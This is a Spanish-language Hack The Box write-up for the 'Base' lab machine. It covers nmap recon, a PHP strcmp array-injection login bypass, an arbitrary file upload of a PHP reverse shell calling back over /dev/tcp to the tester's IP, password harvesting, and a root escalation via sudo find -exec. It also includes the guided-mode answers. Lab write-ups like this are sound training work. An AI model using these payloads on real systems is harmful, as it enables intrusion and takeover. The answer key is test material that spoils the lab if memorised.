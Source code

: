 ```yaml
---
title: Writeup base - Hack The Box - Resolución y Análisis
published: true
tags:
  - hackthebox
  - writeup
  - base
  - ciberseguridad
  - pentesting
description: Writeup y resolución de la máquina base en Hack The Box.
keywords:
  - writeup base
  - hack the box base
  - resolución máquina base
  - base hack the box
  - htb base
---
```

--------
### 🔗 Accesos rápidos

- 📄 **Writeup online**: [Link](https://publish.obsidian.md/bunzopy/HTB/SuperFacil/Tier+2/Linux/Base)
- 📺 **Resolución en vivo (completa)**: [Link](https://www.youtube.com/watch?v=Trejh7Fih34)
- 🧠 **Explicación resumida**: 

---

#easy #linux #nmap #ping #arbitraryfileupload #whatweb #arrayinjection #cat #strings #burpsuite #tratamientotty #sudo-l #grep 

-----
# Guided Mode

1)¿Qué dos puertos TCP están abiertos en el host remoto?
	22,80

2)¿Cuál es la ruta relativa en el servidor web para la página de inicio de sesión?
	/login/login.php

3)¿Cuántos ficheros hay en el directorio «/login»?
	3

4)¿Cuál es la extensión de un archivo swap?
	.swp
	
5)¿Qué función PHP se utiliza en el código backend para comparar el nombre de usuario y la contraseña enviados por el usuario con el nombre de usuario y la contraseña válidos?
	strcmp()

6)¿En qué directorio se almacenan los archivos cargados?
	\_uploaded

7)¿Qué usuario existe en el host remoto con un directorio home?
	john

8)¿Cuál es la contraseña del usuario presente en el sistema?
	thisisagoodpassword

9)¿Cuál es la ruta completa del comando que el usuario john puede ejecutar como usuario root en el host remoto?
	/usr/bin/find

10)¿Qué acción puede utilizar el comando find para ejecutar comandos?
	exec

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.95.184
nmap -p- --open -vvv --min-rate 5000 -sS -n -Pn 10.129.95.184 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.95.184 -oN target
```


![[Base1.png]]
![[Base2.png]]
*TTL:* Maquina linux
*Puertos:*
	`22`SSH
	`80`HTTP

--------
# [[Whatweb-wappalyzer]]

```shell
whatweb http://10.129.95.184/
nmap --script http-enum -p80 10.129.95.184 -oN webScan
```
![[Base3.png]]![[Base4.png]]
Nos informa que es un apache, tambien el dominio base.htb

-------
# [[Array Injection]]
Entramos a la parte de login y vemos que esta dentro de un directorio /login

![[Base7.png]]
Asi que vamos a ese directorio y descargamos el archivo .swp(Explicado en notas que son los .swp)
![[Base6.png]]
Ahora si cateamos el archivo nos va a aparecer que es un binario. Lo que vamos a hacer es abrirlo con ``nvim login.php.swp``

![[Base8.png]]
y vemos que tiene muchas cadenas que no se pueden leer
![[Base9.png]]
Asi que vamos a usar [[strings]] con el comando `strings login.php.swp > loginlimpio.txt` para sacar las cadenas legibles y el output lo voy a poner en un archivo que se llama loginlimpio.txt 
![[Base10.png]]
y ahora lo abrimos con [[cat]] usando el comando `cat loginlimpio.txt -l java` 
	Aclaracion: Si bien no es java el lenguaje, usa los colores bastante bien para separarlo y entender mejor el codigo
	
![[Base11.png]]

Despues de analizar el archivo, podemos ver en esta parte que antes de hacer la validacion del usuario y contraseña nos brinda las cookies. Y a la vez por como esta estructurada la comparacion poniendole [] para hacerlo arrays podemos romper la comparativa y ingresar con cualquier usuario y contraseña
```
header("Location: /upload.php");
  72   │             $_SESSION['user_id'] = 1;
  73   │         if (strcmp($password, $_POST['password']) == 0) {
  74   │     if (strcmp($username, $_POST['username']) == 0) {
  75   │     require('config.php');
  76   │ if (!empty($_POST['username']) && !empty($_POST['password'])) {
  77   │ session_start();
```

Interceptamos con burpsuite la peticion

![[Base12.png]]
Y cambiamos la ultima linea por `username[]=test&password[]=pass` 
Asi ganamos acceso a la pagina upload.php
![[Base13.png]]

----------
# [[Arbitrary file upload]]

Con el diccionario de seclists no vamos a encontrar nunca el directorio donde se suben los archivos que es http://10.129.95.184/_uploaded/ ya que la palabra uploaded no aparece en los diccionarios. Para poder encontrarla podemos añadir esta palabra, asi ya lo tenemos en un futuro con el comando `echo "_uploaded" | sudo tee -a /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt` que va a añadir en la ultima linea la palabra

Vamos a usar [[Gobuster]] para enumerar directorios `gobuster dir -u http://10.129.95.184/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 60`
![[Base15.png]]
### Sacamos una [[Reverse shell]] 
Creamos un archivo con nombre rever.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```

Mientras estamos en escucha con [[nc -nlvp 443]], vamos a abrir el archivo desde http://10.129.95.184/_uploaded/rever.php
![[Base14.png]]
Y ya estamos adentro de la maquina

--------------
# [[Tratamiento de la TTY]]

-------
# Escalada al usuario john buscando [[Posibles archivos con contraseñas]]

Buscamos con [[grep]]`grep -riE "password|.*password|password.*" ` desde el directorio /var/www/html/login
Y encontramos la contraseña *thisisagoodpassword*
![[Base16.png]]

### Conexion por [[ssh]]
```shell
ssh john@10.129.95.184 -p 22
```
![[Base18.png]]

------
# Escalada de privilegios a root con [[Abuso de Sudo]]

Con `sudo -l` vemos que el binario /usr/bin/find se ejecuta como root
![[Base19.png]]

[Articulo de gtfobinds donde se saco esto](https://gtfobins.github.io/gtfobins/find/#suid)
```
sudo /usr/bin/find . -exec /bin/bash -p \; -quit
```
![[Base20.png]]

----------
# Notas

Los archivos `.swp` los crea Vim para guardar cambios temporales mientras editás, permitiendo recuperar datos si se cierra inesperadamente. También evitan que se edite el mismo archivo desde dos lugares a la vez. Podés borrarlos si estás seguro de que Vim ya no está usando el archivo.


---------
# Creditos
Writeup oficial HackTheBox